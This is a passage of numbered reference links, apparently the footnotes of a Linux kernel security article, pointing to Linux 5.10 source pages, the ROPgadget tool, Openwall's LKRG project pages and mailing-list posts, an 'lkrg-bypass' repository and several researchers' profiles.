[6]: https://twitter.com/andreyknvl
[7]: https://elixir.bootlin.com/linux/v5.10/source/Documentation/trace/ftrace.rst
[8]: https://github.com/JonathanSalwan/ROPgadget
[9]: https://twitter.com/h0t_max
[10]: https://twitter.com/Adam_pi3
[11]: https://www.openwall.com/lkrg/
[12]: https://www.openwall.com/presentations/OSTconf2020-LKRG-In-A-Nutshell/
[13]: https://github.com/milabs
[14]: https://github.com/milabs/lkrg-bypass
[15]: https://www.openwall.com/lists/lkrg-users/2019/02/21/2
[16]: https://twitter.com/solardiz
[17]: https://www.brainyquote.com/quotes/albert_einstein_385842
[18]: https://elixir.bootlin.com/linux/v5.10/source/arch/x86/kernel/alternative.c#L959
[19]: https://www.openwall.com/lists/lkrg-users/2021/07/03/1
